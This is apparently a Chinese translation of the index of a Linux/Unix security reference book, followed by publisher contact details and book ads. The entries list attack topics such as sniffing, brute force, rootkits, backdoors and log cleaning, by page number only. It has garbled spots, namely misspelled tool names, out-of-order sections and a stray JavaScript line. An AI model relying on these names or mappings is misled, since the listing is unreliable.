  - 使用其嗅探 `FTP` 身份验证，64–65
  - 使用其嗅探 `POP3` 密码，86–87
  - 与 `SSH` 一起使用，68
  - 其网络地址，60
- `EXPN` 命令
  - 通过其枚举用户，40–41
  - 为使用 `Sendmail` 而关闭，137
- 暴露。参见防止暴露

### F
- `Fata-Jack` 无线黑客工具，使用，174–175
- 文件权限
  - 为重要文件分配，147–149
  - 磁盘分区，149–150
  - 确保重要文件具有，`RC 30`–`RC 32`
  - `/dev` 中的文件，149
  - 由 `bin` 和 `sys` 拥有的文件，146
  - 实施 `wheel` 组，150
  - `setup` 和 `setupd` 文件，150
  - `Sudo`，151
  - 教程，144–149
  - `umask` 值，146–147
  - 世界可读文件，145
  - 世界可写文件，146
- `FIN` 扫描，使用 `Nmap` 执行，27
- `find` 命令
  - 使用其检查 `sys` 拥有的文件，146
  - 使用其搜索世界可读文件，145
  - 使用其搜索世界可写文件，146
- `TCP` 端口 79 上的 `Finger` 程序，使用，42–43
- 指纹识别，使用，32–34
- 指纹识别，解释，4
- `FTP` 账户，暴力破解，64–68
- `FTP` 身份验证，嗅探，64–65
- `FTP` 反弹攻击，发生情况，65
- `FTP` 反弹扫描，使用 `Nmap` 执行，26
- `TCP` 端口 21 上的 `FTP`（文件传输协议）
  - 与连接窃取的关系，66
  - 从 `inetd` 禁用，134
  - 使用，37–38
  - 漏洞，63
- `FTP` 端口，通过 `telnet` 客户端连接，37
- `FTP` 服务器横幅
  - 更改，38
  - 获取，37

### G
- `GNU` 隐私守护进程，其网络地址，73
- 组成员身份和错误的文件权限，利用，112–114
- 组拥有的文件，查找，112–113

### H
- 黑客工具，其网络地址，`RC 15`–`RC 17`
- 句柄
  - 通过其查询域名注册商记录，11
  - 通过其查询 `RIR` 记录，13–14
- 隐藏的 `HTML` 元素，漏洞，84
- 隐藏
  - 与后门，122–123
  - 与将本地账户 `uid` 更改为 0，123–124
  - 与清理日志，120–122

### HackNotes Linux 与 Unix 安全便携式参考

### I
- 与 `.rhosts` 文件，124
- 以及由 `root` 拥有的 `setuid/setgid` `shell`，123
- 劫持 `telnet` 会话的发生情况，69–70
- `host` 命令，使用其执行区域传输，16–18
- 主机配置，审计与加固，61
- 主机加固
  - `Apache`（`HTTP` 和 `HTTPS`），139–140
  - `BIND`（`DNS`），138–139
  - 检查 `/etc/hosts.equiv` 的内容，133
  - 检查 `.rhosts` 文件，133
  - 禁用栈执行，133
  - `inetd` 和 `xinetd` 配置，134–135
  - `NFS`（网络文件系统），141
  - 远程服务，135
  - 删除不必要的账户，132
  - `Samba`，140–141
  - `Sendmail`，136–138
  - 设置密码策略，132
  - `SSH`（安全外壳）`TCP` 端口 22，136
  - 使用 `TCP Wrappers`，133–134
  - `WU-FTPD`，135–136
- 主机，`Ping`，23
- `Http2g`，在 `Zaurus PDA` 上使用，181
- `HTTP` 认证
  - 暴力破解，77
  - 嗅探，80
- `HTTP` 代码，表格，`RC 28-RC 29`
- `HTTP` 数据，嗅探，78–79
- `HTTP`（超文本传输协议）在 `TCP` 端口 80 上
  - 加固，139–140
  - 与 `HTTPS` 的比较，80
  - 与会话劫持的关系，83–84
  - 用途，43–45
  - 漏洞，77, 92–94
- `HTTP` 请求，使用 `unsnarf` 程序进行嗅探，77–78
- `HTTP` 服务器横幅，获取与更改，43–45
- `HTTP` 服务器
  - 使用 `openssl` 连接，93
  - 配置错误，81
- `HTTP` 流量，使用网络代理，102–103
- `HTTPS`（安全超文本传输协议）在 `TCP` 端口 443 上
  - 加固，139–140
  - 与 `HTTP` 的比较，80
  - 用途，51–52
- `HTTPS` 服务器横幅，获取与更改，52
- `HTTPS` 流量，使用网络代理，102–103
- `Hydra` 暴力破解工具，网络地址，58
- `ICMP` 回显请求，在 `Ping` 扫描过程中的阻断，24


### J

- 职位发布，搜索管理弱点，4
- `John the Ripper`，使用其破解 `/etc/shadow` 文件，109–110

### K

- 内核缺陷，软件漏洞，115–116
- `Keytable VNC` 查看器，在 `Zaurus PDA` 上使用，183
- `Kismet` 无线黑客工具，使用，173, 178
- `Knark` 工具包，下载，127
- `KSA`（密钥调度算法），使用 `Ainsmort`，171

### L

- `LACNIC`（拉丁美洲和加勒比互联网地址注册局），网络地址，12
- Linux 发行版
  - 使用的命令，RC 2–RC 6
  - 定位日志文件，154
  - 获取补丁，155
- Linux 文件权限，以数字形式表示，144
- Linux 服务，使用的端口，RC 7–RC 8
- 本地信任，利用，112
- 日志文件
  - 在 Unix 和 Linux 中定位，154
  - 搜索，5–6
  - `/var/admin/login.log`，155
  - `/var/admin/sulog`，155
  - `/var/audit`，154–155
  - 在 `/var` 目录中，121
  - `/var/log/cron`，155
  - `/var/log/maillog` 文件，155
  - `/var/log/messages`，156
  - `/var/log/secure`，156
  - `/var/log/wtmp`，156
  - `/var/run/utmp`，156
- 日志轮转，启用，156–157
- 日志记录，启用，121, 154–157
- 日志机制，禁用与清理，120–122
- `Loki2` 工具，安装后门，125–126
- 环回接口（127.0.0.1），无限制流量，112
- 环回范围，在 IP 编址中的作用，RC 12
- `LRK`（Linux Rootkit），下载，127
- 使用带 `-flag` 的 `ls`，检查文件权限，144

### M

- `MAC` 地址过滤，利用，175
- `mailsnarf` 程序，使用其嗅探 `SMTP` 流量，72
- 中间人攻击
  - 动态过程，60–61
  - 对 `SSH`（安全外壳）的攻击，68
- `mssqltrage.php` 脚本，示例，96
- `MTR`（Matt’s TraceRoute），在 `Zaurus PDA` 上使用，185
- 域名中的 `MX`（邮件交换）记录，查询，15–16
- `TCP` 端口 3306 上的 `MySQL`
  - 阻断与加固，97
  - 用途，52–54
- `MySQL` 流量，嗅探，96–97
- `MySQL` 版本信息，枚举，54–55

### N

- `NASL`（Nessus 攻击脚本语言）
  - 特性，162
  - 使用其编写 `Nessus` 插件，162–167
- `NASL` 脚本，从命令行运行，162
- `Nessus` 插件，使用 `NASL` 编写，162–167
- `Nessus` 安全扫描器
  - 下载，162
  - 用途，104–105
- `Netcat`
  - 获取远程 shell，106–107
  - 执行自动化的横幅抓取，54–56
- `Netcat` 命令列表，RC 20–RC 21
- `Nestst`，使用其加固远程服务，135
- 网络块，通过其查询 `RIR` 记录，13
- `NTP` 和 `BGP` 数据包缓冲区漏洞
  - 在 `tcpdump` 中，112

### O

- `NFS` 共享，查询远程主机，87–88
- `Nmap` 扫描工具
  - `ACK` 扫描，30
  - 特性，22
  - `FIN` 扫描，27
  - `FTP` 反弹扫描，26
  - `IP` 协议扫描，30
  - `NULL` 扫描，29
  - 操作系统指纹识别，34
  - `Ping` 扫描，23
  - 反向 `ident` 扫描，28
  - `RPC`（远程过程调用）扫描，29–30
  - 源端口扫描，27
  - `SYN` 扫描，26
  - `TCP` 连接端口扫描，25
  - `TCP Ping`，24
  - `UDP` 端口扫描，31
  - 在 `Zaurus PDA` 上使用，179
  - 窗口扫描，31
  - `XMAS` 扫描，28
- `NNTP` 认证数据，嗅探，89
- `NNTP`（网络新闻传输协议）
  - 在 `TCP` 端口 119 上
  - 暴力破解，89
  - 通过 `SSH` 隧道，89
  - 用途，47–48
- `NNTP` 服务器横幅，获取与更改，47–48
- `NNTPS` 横幅，抓取与更改，52
- `NNTPS`（安全网络新闻传输协议）在 `TCP` 端口 563 上
  - 用途，52
  - 使用 `openssl`，94
- 非标准端口，识别在其上运行的远程服务，63. 另见 `TCP` 端口；`UDP` 端口
- 密码工具，下载，59, 110
- `NULL` 扫描，使用 `Nmap` 执行，29

### P

- 全向天线，用于无线活动，171
- `OpenSSH`，在 `Zaurus PDA` 上使用，180–181
- `openssl` 工具
  - 连接 `HTTPS` 服务器，93
  - 与 `IMAPS` 服务器使用，95
  - 与 `NNTPS` 使用，94
  - 与 `POP3S` 使用，95
- 操作系统，使用 `Xprobe2` 进行指纹识别，32–34

### Q

- 密码策略，用于主机加固的设置，132
- 补丁，获取 Linux 和 Unix 的补丁，155
- `PATH` 环境变量
  - 利用其植入特洛伊木马，114–115
  - 从中移除 `""`，132
- 用于 `Zaurus PDA` 的 `Perl`，下载，185
- `PGP4ME` 长消息行缓冲区溢出，漏洞，104
- `PGPiNote` 新闻应用，漏洞，82–83
- `ping` 命令，示例，23
- `Ping` 扫描，使用 `Nmap` 执行，23
- `Ping`，通过其确定存活主机状态，23. 另见 `TCP Ping`
- `TCP` 端口 109 上的 `POP2`（邮局协议 2），暴力破解与嗅探，85
- `POP2` 流量，嗅探，85
- `POP3` 密码，嗅探，86–87
- `TCP` 端口 110 上的 `POP3`（邮局协议 3）
  - 暴力破解，86
  - 用途，45
- `POP3` 服务器横幅，更改，45
- `TCP` 端口 995 上的 `POP3S`（安全邮局协议 3）
  - 用途，53
  - 使用 `SSL`，95
- `POP3S` 服务器横幅，抓取与更改，53
- `PORT` 命令，在反弹攻击中的作用，65
- 端口重定向，技术，107–109
- 端口扫描
  - 防御，31–32
  - 反向 `ident`，28
  - `TCP` 连接，25
  - `TCP SYN`/半开放，26–27
  - 用途，25
- `TCP` 端口 111 上的 `Portmapber`
  - 禁用，47
  - 配置错误，87
  - 查询 `RPC` 服务，46–47
  - 用途，45–47
- 端口。另见非标准端口；`TCP` 端口；`UDP` 端口
- Linux 和 Unix 服务中使用的端口，表格，RC 7–RC 8
- `UDP` 端口

### P

- 井号（`#`），用于禁用 `inetd` 的 `FTP`，134
- 防止暴露
  - 应用程序漏洞，104
  - 反弹攻击，65
  - 暴力破解攻击，59
  - `DNS` 反向查找，15
  - 域名注册商记录，11
  - 端口扫描，31–32
  - `RIR` 记录，14

- `ident`（身份验证协议）服务器，扫描，28
- `IMAP` 暴力破解，预防，92
- `IMAP` 服务器横幅，抓取与更改，49–50
- `IMAP` 流量，嗅探，92
- `IMAP2/IMAP4`（互联网消息访问协议 2/4）在 `TCP` 端口 143 上
  - 暴力破解，92
  - 用途，49–50
  - 漏洞，92
- `IMAPS`（安全互联网消息访问协议）在 `TCP` 端口 993 上
  - 用途，52–53
  - 使用 `SSL`，94–95
- `IMAPS` 服务器横幅，抓取与更改，53
- `IMAPs` 服务器，使用 `openssl` 工具，95
- `httpd.conf` 中的 `IndexLmgr` 指令，使用，139
- `inetd`
  - 用作远程 shell，122–123
  - 与 `xinetd` 加固，134–135
- 输入验证漏洞，利用与预防，82–83, 116
- 远程服务的入侵战术，概述，58–62
- `IP` 地址。另见 `CIDR`（无类别域间路由）地址
  - 类别，RC 9-RC 11
  - 点分十进制表示法，RC 9
  - 长度，RC 9
  - 与环回范围，RC 12
  - 通过其查询 `RIR` 记录，13
  - 使用的子网掩码，RC 11
- 保留用于私有内部网络的 `IP` 块列表，RC 12
- `IP`（互联网协议）报头，格式，RC 12-RC 13
- `IP` 协议扫描，使用 `Nmap` 执行，30


- `traceroute` 请求，19
- 区域传输，18
- FTP 暴力破解，64
- IMap 暴力破解，92
- 中间人攻击，61
- 搜索引擎，8
- 软件漏洞，61
- SSH 暴力破解，67–68
- 权限提升
  - 解释，112
  - 组成员身份和错误的文件权限，112–114
  - 以及错误配置，118
- ProFTPD，网址，67
- 受保护数据泄露，搜索，7
- `ptrace` 漏洞利用，发生情况，115–116

### Q
- Qopenmaple，用于 Zaurus PDA，179–180

### R
- r（读）权限，示例，144–145
- 远程服务漏洞
  - 阻止和停止非必要服务，63
  - 反弹攻击，65
  - POP3 暴力破解，86
  - 连接窃取，66–67
  - DNS（域名系统）TCP/UDP 端口 53，74
  - 邮件加密，73
  - TCP 端口 21 上的 FTP（文件传输协议），63
  - 隐藏的 HTML 元素，84
  - 获取源代码、配置统计信息和密码资源，81
  - TCP 端口 111 上的 Portmapper，87
  - 查询 NFS 共享，87–88
  - 识别运行在非标准端口上的服务，63
  - TCP 端口 137 到 139 上的 Samba，90–91
  - 会话劫持，83–84
  - TCP 端口 25 上的 SMTP（简单邮件传输协议），72
  - 嗅探 FTP 认证，64–65
  - 嗅探 POP3 流量，85–86
  - 源代码注释，84–85
  - TCP 端口 22 上的 SSH（安全外壳协议），67–68
  - telnet，68–72
  - UDP 端口 69 上的 TFTP（简单文件传输协议），75–76
  - 以及安全协议的使用，65
  - TCP 端口 5800+ 和 5900+ 上的 VNC（虚拟网络计算），97–100
- 远程服务
  - 阻止和停止，37
  - 枚举，36–54
  - 加固，135
  - 使用 Armap 识别，36
  - 入侵战术，58–62
- 远程 Shell 服务安装，防止，123
- 远程 Shell
  - 安装以用于后门，122–123
  - 获取，105–107
  - 防止攻击者获取，107
- 反向标识扫描，使用 Nmap 执行，28
- 反向代理攻击，发生情况，103
- TCP 端口 512 上的 rwx 命令，用于远程主机，93
- RFCs（请求注释）
  - 768（UDP 头），RC 14
  - 791（IP 头），RC 12
  - 793（TCP 头），RC 13
- `.rhosts` 文件
  - 使用 SSH 审计，124
  - 检查，133
  - 利用，124
- `.rhosts` 错误配置，发生情况，93–94
- RIPE NCC（欧洲互联网网络协调中心），网址，12
- RIR 记录
  - 防止由此导致的暴露，14
  - 按公司前缀查询，12
  - 按电子邮件查询，14
  - 按句柄查询，13–14
  - 按 IP 地址或网络块查询，13
- RIRs（区域互联网注册机构），使用，12
- TCP 端口 513 上的 rlogin 命令，用于远程主机，93–94
- root 访问权限，通过滥用 `.rhosts` 文件确保，124
- `/root` 文件，分配适当权限，148
- root 权限
  - 获取，123–124
  - 使用 Sudo 免费软件，151
- root Shell，访问，122–123
- Rootkit
  - 检测，127
  - 使用，126–127
- RPC（远程过程调用）扫描，使用 Nmap 执行，29–30
- RPC 服务
  - 查询 Portmapper，46–47
  - 软件漏洞，88–89
- TCP 端口 514 上的 rsh 命令，用于远程机器，94
- RSTP 数据包，在 FIN 扫描中的作用，27
- `runlp` 工具，漏洞，116

### S
- 管理弱点职位描述，4
- 日志文件信息，5–6
- 受保护数据资源，7
- 用于管理缺陷的 Usenet 存档，7–8
- Web 服务器统计信息，6–7
- 安全协议的使用，65
- 安全会议，网址，RC 19
- 安全邮件列表，网址，RC 19
- 安全新闻，网络资源，RC 18
- 安全资源，网址，RC 15
- Sendmail
  - 加固，136–138
  - 漏洞，73
- `sendmail/Me` 文件，关于进行更改的咨询，138
- 会话劫持，漏洞，83–84
- `setgid` 和 `setuid` 文件，查找，150
- `setuid` 权限，添加，144
- 由 root 拥有的 `setuid` / `setgid` Shell，漏洞利用，123
- Sharp Zaurus PDA（个人数字助理）。参见 Zaurus PDA（个人数字助理）
- Shell 历史，在干净日志中的作用，120–121
- Shell，获取，105–107
- Showtune 程序，使用它查询远程主机的 NFS 共享，87–88
- SMB（服务器消息块），在 Samba 中的作用，90
- Smurf 字体，用于 Zaurus PDA，183
- `smrsh` MDA（邮件代理）
  - 在加固 Sendmail 时启用，137
- SMTP 服务器横幅，获取和更改，40
- TCP 端口 25 上的 SMTP（简单邮件传输协议）
  - 嗅探流量，72
  - 使用，39–41
- SMTP 流量，嗅探，72
- 嗅探对策，60
- 嗅探，动态，59–60
- UDP 端口 161–162 上的 SNMP（简单网络管理协议）
  - 枚举和预防
    - 枚举，50–51
- 软件漏洞
  - BIND（伯克利互联网域名），75
  - 内核缺陷，115–116
  - 本地缓冲区溢出，116
  - RPC 服务，88–89
  - Sendmail，73
  - 符号链接，117
  - telnet，71–72
  - 窃取攻击，66
  - VNC（虚拟网络计算），99–100
- Solaris FTF 核心转储影子文件恢复漏洞，发生情况，117–118
- 源代码注释，漏洞，84–85
- 端口扫描，使用 Nmap 执行，27
- TCP 端口 22 上的 SSH（安全外壳协议）
  - 其中的 `authorized_keys`，125
  - 暴力破解，67–68
  - 加固，136
  - 通过它防止 root 登录，125
  - 与 login 的对比，94
  - 与 telnet 的对比，70–72
  - 通过它隧道传输 NNTP，89
  - 通过它隧道传输 POP2 流量，85
  - 使用它安全地隧道传输 VNC 流量，99–100
  - 使用，38
  - 与 `.rhosts` 文件一起使用，124
- SSH 服务器横幅，获取，38
- SSH 服务器，使用 `authorized_keys` 访问，125
- SSH 版本信息，更改，38
- `sshtimit` 工具，与 SSH 一起使用，68
- SSL（安全套接字层）
  - 与 NNTP 一起使用，94
  - 与 POP3/5 一起使用，95
- 堆栈执行，为了主机加固而禁用，133
- 统计信息，在 Web 服务器上搜索，6–7
- 强密码
  - 好处，59
  - 确保，110
- `su` 命令，用它登录用户账户，155
- IP 地址中的子网掩码，示例，RC 11
- Sudo 免费软件，使用它执行具有 root 权限的命令，151
- 符号链接，漏洞，117
- SYN 扫描，使用 Nmap 执行，26
- `sys` 和 `bin`，它们拥有的文件，146
- 系统审计和日志记录，启用，121

### T
- `tail` 命令，用它检查执行的命令，120–121
- TCP connect 端口扫描，过程，25
- TCP 劫持，发生情况，69
- TCP ping 扫描，防止，24
- TCP ping，使用 Nmap 执行，24
  - 另见 ping
- TCP 端口号，范围，25
- TCP 端口。另见非标准端口；UDP 端口
  - 21（FTP），37–38，63
  - 22（SSH），37–38，67
  - 23（telnet），38–39，68
  - 25（SMTP），39–41，72
  - 53（DNS），41–42，74
  - 79（Finger），42–43
  - 80（HTTP），43–45，77
  - 109（POP2），85
  - 110（POP3），45，86
  - 111（Portmapper），45–47，87
  - 119（NNTP），47–48，89


- 137 到 139（Samba），48–49，90–91
- 143（IMAP2/IMAP4），49–50
- 512（rexec 命令），93
- 513（rlogin 命令），93
- 514（rsh 命令），94
- 563（NNTFS），52，94
- 993（IMAPS），52–53，94–95
- 995（POP3S），53
- 3306（MySQL），53，54
- 5800+ 和 5900+（VNC），97–100
- 6000–6063（X 窗口系统），100–102
- 8000+（Web 代理），102–103
- TCP SYN/半开端口扫描，使用，26–27
- TCP（传输控制协议）头，格式，RC 13
- TCP wrappers，用于主机加固，133–134
- `tcpdump` 网络分析器
  - 其中的畸形 NPS 和 BGP 数据包缓冲区漏洞，103
  - 用于 Zaurus PDA，183–184
- `telnet` 认证，嗅探，70–71
- `telnet` 客户端，用它连接到 FTP 端口，37，38
- if (condVar > someVal) {console.log("xxx")}

## 索引

### T

- 23 端口的 TCP 上的 `telnet`
  - 暴力破解，68–69
  - 使用方法，38–39
  - Telnet 服务器横幅
    - 修改，39
    - 获取，39
  - Telnet 会话劫持，69–70
  - Telnet 与 SSH（Secure Shell）对比，70–72
- TFTP 数据嗅探，75–76
- 设置 TFTP 根目录，76
- 69 端口的 UDP 上的 TFTP（Trivial File Transfer Protocol，简单文件传输协议）漏洞，75–76
- `/tmp` 文件，分配正确的权限，148
- 下载 Torckit rootkit，127
- 阻止接收 tracroute 请求，19
- 执行 `traceroutes`，18–19
- 使用 `Tripwire` 检测被修改的二进制文件，127
- 木马（Trojans）
  - 示例，126–127
  - 在 PATH 环境变量中的 `""` 植入，114–115
- TTL（Time to Live，生存时间）值，在执行 `traceroutes` 中的作用，18–19

### U

- `/var/adm/syslog` 文件，内容，155
- `/var/audit` 日志文件，内容，154–155
- `/var` 目录
  - 检查可用空间，157
  - 清理，121–122
- `/var` 文件，分配正确的权限，148–149
- `/var/log/cron` 文件，内容，155
- `/var/log/maillog` 文件，内容，155
- `/var/log/messages` 文件，内容，156
- `/var/log/syslog` 文件，内容，156
- `/var/log/wtmp` 文件，内容，156
- `/var/run/wtmp` 文件，内容，156

### V

- 虚拟机，在上面测试漏洞利用，62
- VNC 密码，嗅探与破解，98–99
- VNC 服务器，与 Zaurus PDA 配合使用，182
- VNC 流量，通过 SSH 安全隧道传输，99–100
- 5800+ 和 5900+ 端口的 TCP 上的 VNC（Virtual Network Computing，虚拟网络计算）
  - 配置错误，99
  - 漏洞，97–100
- `vncrack` 工具，网络地址，97
- VRFW 命令
  - 通过该命令枚举用户，40–41
  - 为配合 Sendmail 使用而关闭，137
- 漏洞
  - 应用程序的漏洞，103–104
  - Netscape/Mozilla POP3 邮件处理器整数溢出漏洞，103–104
  - 搜索引擎的漏洞，4–8
  - whois 查询的漏洞，9

### W

- `w`（写入）权限，示例，144
- Web 应用程序，漏洞，82–83, 162
- 8000+ 端口的 TCP 上的 Web 代理
  - 配置错误，102–103
  - 漏洞，102–103
- 安全新闻的 Web 资源列表，RC 18
- Web 服务器
  - 针对敏感文件的配置，81–82
  - 搜索其统计信息，6–7
  - 对源代码注释的漏洞，85

#### 网站

- Adore rootkit，127
- Airsnort，171–172
- Amap，36, 63
- 无线活动天线，171
- Apache 对块处理的漏洞，85
- APNIC（Asia Pacific Network Information Centre，亚太互联网络信息中心），12
- ARIN（American Registry of Internet Numbers，美国互联网号码注册机构），12
- 在 chroot 环境中运行的 BIND，138
- Bing，180
- CDÉ Tooltalk 漏洞，117
- Chkrootkit，127
- Zaurus 的 `dig` 工具，185
- DNSSEC（DNS Security，DNS 安全），74–75
- EDGAR，4
- Ettercap ARP 欺骗工具，60
- `/var/audit` 文件的事件日志记录，155
- Finger 漏洞，73
- GNU Privacy Guard，43
- 黑客工具，RC 15–RC 17
- Hping2，181
- Hydra 暴力破解工具，58
- John the Ripper，109–110
- Keyphable VNC 查看器，183
- Kismet，178
- Kismet 无线黑客工具，173
- Knark rootkit，127
- LACNIC（Latin American and Caribbean Internet Addresses Registry，拉丁美洲和加勒比海地区互联网地址注册机构），12
- 本地缓冲区溢出，116
- Loki2 工具，126
- LRK（Linux Rootkit，Linux 后门程序），127
- 针对 SSH 的中间人攻击，68
- MySQL 强化，95, 97
- NASL，参考手册，166
- Nessus，105, 162
- Netcat，54–56
- Nmap 实用程序，22
- npspawned，59
- npspawned 实用程序，110
- OpenSSH，181
- OpenSSL，93–94
- Linux 和 Unix 补丁，155
- PHPNuke 漏洞，82
- ProFTPD，67
- Qpenmapfe，179–180
- RFC 768（UDP 头部），RC 14
- RFC 791（IP 头部），RC 12
- RFC 793（TCP 头部），RC 13
- RIPE NCC（Réseaux IP Européens Network Coordination Centre，欧洲互联网地址注册机构），12
- RPC 软件漏洞，88
- rnrlir 实用程序，116
- Samurai，127
- 安全会议，RC 19
- 安全邮件列表，网络地址，RC 19
- 安全资源，RC 15
- Sendmail，73
- Zaurrus PDA 的 Snimnroot 工具，183
- 软件漏洞和缓冲区溢出，61
- 与 VNC 流量配合使用的 SSH，99
- SuDo，151
- TCP Wrappers，133
- `tcpdump` 和恶意 NFS 数据包，103
- Zaurrus PDA 的 `tcpdump`，184
- Tormkit rootkit，127
- Tripwire，127
- 关于管理缺陷的 Usenet 存档，8
- 虚拟机软件，62
- VNC 服务器，182
- vnclcrack 工具，97
- 无线天线，171
- WU-FTPD，135
- xkey 工具，102
- Xprobe2，32–34
- xremote 工具，102
- xscan 程序，101
- xwatch/xwii 工具，101
- zap3 工具，121
- Zaurrus PDA，185
- Zaurrus 移植的 Nmap，179
- Zebedee 命令行工具，107–109
- 与 Zaurrus PDA 配合使用的 Zithereal，184
- 与 Zaurrus PDA 配合使用的 zNessus，184–185
- `webproxy` 程序，功能，78
- Wellenreiter II，与 Zaurrus PDA 配合使用，179
- WEP（Wired Equeivalent Privacy，有线等效隐私）协议，概述，170–171


- `Wget`，与 `Zaurrus PDA` 配合使用，184

### X

- `x`（执行）权限，示例，144
- X 服务器
    - 利用其配置错误，100–102
    - 阻塞与隧道传输，102
    - 6000–6063 端口的 TCP 上的 X 窗口系统，漏洞，100–102
- `xinetd`
    - 与 `inetd` 强化，134–135
    - 作为远程 shell 使用，122–123
- 下载 `xkey` 工具，102
- 使用 `Nmap` 执行 `XMAS` 扫描，28
- 使用 `XOR` 真值表与 `unmask` 值，146–147
- 使用 `Xprobe2` 对操作系统进行指纹识别，32–34

### Z

- 使用 `zap3` 工具进行清理，121
- `Zaurus PDA`（个人数字助理）
    - 与 `Bing` 配合使用，180
    - 与 `dig` 工具配合使用，185
    - 功能特性，178
    - 与 `Hping2` 配合使用，181
    - 与 `Keyphable VNC` 查看器配合使用，183
    - 与 `Kismet` 配合使用，178
    - 与 `MTR`（Matt's TraceRoute）配合使用，185
    - 与 `Nmap` 配合使用，179
    - 在线资源，185
    - 与 `OpenSSH` 配合使用，180–181
    - `Perl`，185
    - 与 `Qpenamfape` 配合使用，179–180
    - 与 `Smbmount` 配合使用，183
    - 与 `tcpdump` 配合使用，183–184
    - 与 `VNC` 服务器配合使用，182
    - 与 `Wlennertail II` 配合使用，179
    - 与 `Wget` 配合使用，184
    - 与 `ZEther` 配合使用，184
    - 与 `zNessus` 配合使用，184
- 使用 `Zebedee` 命令行工具执行端口重定向，107–109
- 与 `Zaurus PDA` 配合使用的 `ZEther`，184
- 与 `Zaurus PDA` 配合使用的 `zNessus`，184–185

### 附加条目

- `/var/adm/logi1og` 文件，内容，155
- UDP 头部，格式，RC 14
- UDP 端口号，范围，25
- UDP 端口扫描，使用 `Nmap` 执行，31
- UDP 端口。*参见* 非标准端口，TCP 端口
    - 53 (DNS), 41–42, 74
    - 69 (TFTP), 75–76
    - 137 到 139 (Samba), 48–49
    - 161–162 (SNMP), 50–51
- `uids`，更改为 0，123–124
- Unix 发行版
    - 其中使用的命令，RC 2–RC 6
    - 定位日志文件，154
    - 获取补丁，155
- Unix 文件权限，以数值形式表示，144
- Unix 服务，所使用的端口，RC 7–RC 8
- `unmask` 值，查找当前用户的值，146–147
- `urlsnarf` 程序，嗅探 URL，77–78
- `/usr` 文件，分配正确的权限，148
- `wheel` 组，通过该组限制对 `setuid` 程序的访问，150
- `whois` 查询，漏洞，9
- 窗口扫描，使用 `Nmap` 执行，31
- 无线黑客对天线的攻击，发生情况，171
- 无线黑客工具
    - `Airsnort`，172
    - `Fata-Jack`，173–174
    - `Kismet`，173
- 无线网络
    - 安全加固，174–175
    - 漏洞，170
- 全局可读文件
    - 审计，145
    - 查找，113–114
- 全局可写文件，搜索，113–114, 146
- `WU-FTPD`
    - 强化，135–136
    - 漏洞，66–67
- 下载 `xremote` 工具，102
- 使用 `xscan` 命令与 X 服务器配合，101
- `xterm`，使用 `xotind` 远程 shell，107
- 下载 `xwatchinl` 工具，101
- 区域传输
    - 使用 `host` 命令执行，16–18
    - 防止滥用，18
    - 使用，16–18

### 国际联系方式

#### 澳大利亚

McGraw-Hill 澳大利亚私人有限公司
- 电话：+61-2-9900-1800
- 传真：+61-2-9878-8881
- http://www.mcgraw-hill.com.au
- books-it_sydney@mcgraw-hill.com

#### 加拿大

McGraw-Hill Ryerson Ltd.
- 电话：+905-430-5000
- 传真：+905-430-5020
- http://www.mcgraw-hill.ca

#### 希腊、中东和非洲

（不含南非）
McGraw-Hill 希腊分公司
- 电话：+30-210-6560-990
- 电话：+30-210-6560-993
- 电话：+30-210-6560-994
- 传真：+30-210-6545-525

#### 墨西哥

（同时服务于拉丁美洲）
McGraw-Hill Interamericana Editores S.A. de C.V.
- 电话：+525-117-1583
- 传真：+525-117-1589
- http://www.mcgraw-hill.com.mx
- fernando_castellanos@mcgraw-hill.com

#### 新加坡

（服务于亚洲）
McGraw-Hill 图书公司
- 电话：+65-6863-1580
- 传真：+65-6862-3354
- http://www.mcgraw-hill.com.sg
- mghasia@mcgraw-hill.com

#### 南非

McGraw-Hill 南非分公司
- 电话：+27-11-622-7512
- 传真：+27-11-622-9045
- robyn_swaneepoel@mcgraw-hill.com

#### 西班牙

McGraw-Hill/Interamericana de España, S.A.U.
- 电话：+34-91-180-3000
- 传真：+34-91-372-8513
- http://www.mcgraw-hill.es
- professional@mcgraw-hill.es

#### 英国、北欧、东欧和中欧

McGraw-Hill 欧洲教育
- 电话：+44-1-628-502500
- 传真：+44-1-628-702224
- http://www.mcgraw-hill.co.uk
- computing_europe@mcgraw-hill.com

#### 其他所有查询请联系

McGraw-Hill/Osborne
- 电话：+1-510-420-7700
- 传真：+1-510-420-7703
- http://www.osborne.com
- omg_international@mcgraw-hill.com

---

#### 前沿安全

这些便捷、便携的资源涵盖了关键安全问题的简明信息，非常适合繁忙的 IT 专业人士


国际畅销书《HACKING EXPOSED™》的出版商



**HackNotes™**

Linux/Unix 安全便携参考

作者 Nitesh Dunjani

ISBN: 0-07-222786-9



**HackNotes™**

网络安全便携参考

作者 Mike Horton 和 Clinton Maxey

ISBN: 0-07-222783-4


**HackNotes™**

Web 安全便携参考

作者 Mike Shema

ISBN: 0-07-222784-2



**HackNotes™**

Windows 安全便携参考

作者 Michael O'Driscoll

ISBN: 0-07-222785-0


OSBORNE 成就实效！

OSBORNE www.osborne.com

---

#### 浏览所有 Osborne 的黑客书籍


## 《Hacking Exposed: J2EE & Java》
A. TAYLOR, B. BUEGE, R. LAYMAN

0-07-222565-3

49.99 美元

- 解释了如何对使用以下技术的有效安全对策应用于应用程序：
  - Servlets 和 Java Server Pages (JSPs)
  - Enterprise Java Beans (EJBs)
  - Web Services
  - Applets
  - Java Web Start
  - Remote Method Invocation (RMI)
  - Java Message Service (JMS)


## 《Hacking Exposed: Web Applications》
J. SCAMBRAY, M. SHAPSHA

0-07-222438-X

49.99 美元

- 展示了攻击者如何识别 Web 应用组件中潜在的弱点
- 了解存在于 Apache、IIS、Netscape Enterprise Server、J2EE、ASP.NET 等 Web 服务器平台中的破坏性漏洞


## 《Hacking Exposed: Windows 2000》
S. MCCURLEY, J. SCAMBRAY

0-07-219262-3

49.99 美元

- 展示了如何进行黑客攻击，同时提供具体的解决方案，说明如何堵住 Windows 2000 网络中的安全漏洞


## 《Hacking Linux Exposed, 第二版》
B. HATCH, J. LEE

0-07-222564-5

49.95 美元

- 获取有关内部和外部 Linux 特定黑客攻击的详细资料，以及如何阻止它们


